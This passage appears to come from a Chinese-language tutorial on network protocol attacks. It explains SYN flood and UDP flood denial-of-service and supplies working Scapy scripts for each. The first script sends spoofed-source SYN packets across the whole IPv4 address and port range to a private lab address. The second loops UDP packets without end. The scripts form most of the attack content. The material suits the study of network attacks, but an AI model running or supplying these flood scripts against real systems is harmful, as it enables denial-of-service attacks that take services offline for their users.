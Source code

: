 #### 原理： ####

---

利用tcp三次握手的消耗，当发送了一个syn请求时，服务器会返回一个syn+ack，然后等待客户端发送ack
但是这个时候偏偏就不发ack过去，让服务器持续挂起连接。如果使用循环和多线程，造成大量的syn连接挂起，消耗服务器资源甚至崩溃
（kali中的hping3 的 syn 很厉害）

#### 代码： ####

---
	
	from scapy.all import *
	
	packet = IP()/TCP()
	packet[TCP].dport = 80
	
	for i in range(0,256):
	    for j in range(0,256):
	        for k in range(0,256):
	            for n in range(0,256):
	                for p in range(0,65535):
	                    packet[IP].src = str(i) + '.' + str(j) + '.' + str(k) + '.' + str(n)
	                    packet[IP].dst = "192.168.58.130"
	                    packet[TCP].sport = int(p)
	                    packet[TCP].flags = "S"
	                    send(packet)

![](./NetprotocolAttack/12.png)

## UDP FLOOD ##

#### 原理： ####

---

当发送一个UDP的数据包时，若端口不可达，服务器就会返回一个ICMP包，若如果发送了FLOOD洪水攻击，就会让服务器发送ICMP应接不暇，导致DOS

#### 代码： ####

---
	from scapy.all import *

	packet = IP(dst="192.168.58.130")/UDP(sport=80,dport=80)
	while True:
	    send(packet)


![](./NetprotocolAttack/13.png)
